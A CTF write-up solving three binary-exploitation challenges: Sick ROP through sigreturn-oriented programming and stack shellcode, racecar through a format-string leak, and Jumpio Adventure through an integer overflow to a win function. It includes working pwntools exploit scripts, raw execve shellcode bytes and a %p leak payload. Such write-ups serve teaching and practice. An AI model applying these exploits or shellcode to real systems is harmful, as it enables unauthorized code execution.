 # Sick ROP

First I look what `file` are we dealing with and see that this one is statically compiled.
`sick_rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped`

Then I run checksec to see it's mitigations.

```bash
└─$ checksec --file=sick_rop  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified  Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   10 Symbols        No     0          0            sick_rop
```

Spotting a buffer overflow immediately (the function puts 0x300 bytes on the stack but 0x20 bytes are reserved for our buffer.

```bash
000000000040102e <vuln>:
  40102e:       55                      push   rbp
  40102f:       48 89 e5                mov    rbp,rsp
  401032:       48 83 ec 20             sub    rsp,0x20
  401036:       49 89 e2                mov    r10,rsp
  401039:       68 00 03 00 00          push   0x300
  40103e:       41 52                   push   r10
  401040:       e8 bb ff ff ff          call   401000 <read>
  401045:       50                      push   rax
  401046:       41 52                   push   r10
  401048:       e8 ca ff ff ff          call   401017 <write>
  40104d:       c9                      leave
  40104e:       c3                      ret
```

As the name of this challenge suggest, there might be some ROP gadget building for this (since NX is enabled as well) so let's get into it.

Checking the gadgets available for this challenge that we have (`read`, `write`, `syscall`, `ret`).

```bash
0x0000000000401012 : and al, 0x10 ; syscall
0x000000000040100d : and al, 8 ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x0000000000401044 : call qword ptr [rax + 0x41]
0x000000000040104c : dec ecx ; ret
0x000000000040100c : je 0x401032 ; or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401023 : je 0x401049 ; or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401054 : jmp 0x40104f
0x000000000040104d : leave ; ret
0x0000000000401010 : mov edx, dword ptr [rsp + 0x10] ; syscall
0x000000000040100b : mov esi, dword ptr [rsp + 8] ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100f : mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100e : or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401011 : push rsp ; and al, 0x10 ; syscall
0x0000000000401016 : ret
0x0000000000401049 : retf 0xffff
0x0000000000401014 : syscall
```

I was quite unsure at the first but then I looked into it and found out we can do SROP with these instead.
In SROP there is a `sys_rt_sigreturn` syscall that restores stack frame into registers.
Storing this we can call `mprotect`, rewrite permissions for stack execution and get a shell.	

Using [rchapman's syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) as a reference for building a shellcode for `sys_rt_sigreturn` (rax = 0xf) and `sys_mprotect`.


Since we have plenty space for this we will craft the payload for overwriting `$RIP`
> offset + vuln_addr + syscall_ret + frame_padding
and then call `sys_rt_sigreturn`.

This configuration will now call `vuln()` function, add 0x15 (that should be in `$RAX` for this syscall to work properly). Reset the previously stored register configuration back and finally `syscall; ret`.

Adjusting correct offsets for overflowing the right bytes and then for the shellcode use `execve(/bin/bash)`

```python
#!/usr/bin/env python3
import sys
from pwn import *

context.binary = 'sick_rop'
elf = context.binary
rop = ROP(elf)
p = remote(sys.argv[1], sys.argv[2])

f = SigreturnFrame()
f.rax = 10            # sys_mprotect
f.rdi = elf.address
f.rsi = 0x4000        # size
f.rdx = 0b111         # rwx
f.rsp = 0x4010d8
f.rip = rop.find_gadget(['syscall', 'ret'])[0] # syscall ret;

payload  = b'A' * 40
payload += p64(elf.symbols.vuln)
payload += p64(rop.find_gadget(['syscall', 'ret'])[0] ) # syscall ret;
payload += bytes(f)

p.sendline(payload)
p.recv()

p.send(b'A' * 15) # sys_rt_sigreturn
p.recv()

shellcode = (b'\x48\x31\xf6\x56\x48\xbf\x2f\x62'
             b'\x69\x6e\x2f\x2f\x73\x68\x57\x54'
             b'\x5f\x6a\x3b\x58\x99\x0f\x05')
payload = b'A' * 40 + p64(0x4010e8) + shellcode
p.send(payload)
p.recv()

print(p.interactive())

```

# racecar

```bash
└─$ file racecar                                
racecar: ELF 32-bit LSB pie executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```bash
└─$ checksec --file=racecar         
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified  Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   96 Symbols      No       0  	    3 		 racecar
```

Since all mitigations are enabled I am just looking for any leaks and I find `fgets`.

```c
...
char buf[0x2c];
fgets(&buf, 0x2c, fp);
read(0, eax_71, 0x170);
puts("\n\x1b[3mThe Man, the Myth, the …");
result = printf(eax_71);
```
There is a specific combination of inputs to reach this part of the code after running the binary:
any, any, 2, 2, 1
You need to create `flag.txt` locally to bypass the `if` above this code, then you are prompted with input for `fgets`. Here I leak pointer addresses with `%p` because the flag is on the stack.

```bash
[!] Do you have anything to say to the press after your big victory?                                                
>  %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
 0x584e3200 0x170 0x5662fdfa 0x11 0x3 0x26 0x2 0x1 0x5663096c 0x584e3200 0x584e3380 0x56630540 0x56630538 0xf7d6ee55 0x700f900 0x56630d58 0x56632f8c 0xff824128 0x5663038d 0x56630540 0x584e31a0 0x2 0x700f900 (nil) 0x56632f8c 0xff824148 0x56630441 (nil) (nil) (nil) 0x700f900 0xff824160 0xf7f47e14 (nil) 0xf7d39cc3 (nil) 0xff824214 0xf7d53029 0xf7d39cc3 0x1 0xff824214 0xff82421c 0xff824180 0xf7f47e14 0x566303e1 0x1 0xff824214 0xf7f47e14 0x56630490 0xf7fabb60 (nil) 0x163b73a2 0xb580b5b2 (nil) (nil) (nil) 0xf7fabb60 (nil) 0x700f900 0xf7faca60 0xf7d39c56 0xf7f47e14 0xf7d39d88 0xf7f76ac4 0x8 (nil) (nil) (nil) (nil) 0xf7d39d09 0x56632f8c 0x1
```

The just read it with correct endianness and convert to ASCII.

# Jumpio Adventure (StackSmash 2025)

```bash
└─$ file jumpios_adventure         
jumpios_adventure: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1c58b6bcb029fedf9a75cdafe0842ecfd204fb4b, for GNU/Linux 3.2.0, not stripped
```
```bash
└─$ checksec --file=jumpios_adventure
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified  Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   63 Symbols        No     0          4            jumpios_adventure
```
In Ghidra, I analyzed the `battle()` function there is a possible integer overflow here in `attack` variable since
`attack = attack - 2000`, and `attack` is `unsigned integer` (setting this number too low at first causes the overflow).
Input sequence to reach this part of the code: 1, 4, 5, 1.
Overflowing it with `pwn.cyclic` pattern to find the correct offsets for return address I get 88 bytes. (`cyclic -l <INPUT>`)
```python
import sys
from pwn import *

p = remote(sys.argv[1], sys.argv[2])
e = ELF("./jumpios_adventure")
win_add = p64(e.sym.win)

#p = process("./jumpios_adventure")

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'4')
p.sendlineafter(b'> ', b'5')
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b"name: ", b'A' * 88 + win_add) 
 
print(p.interactive())
```




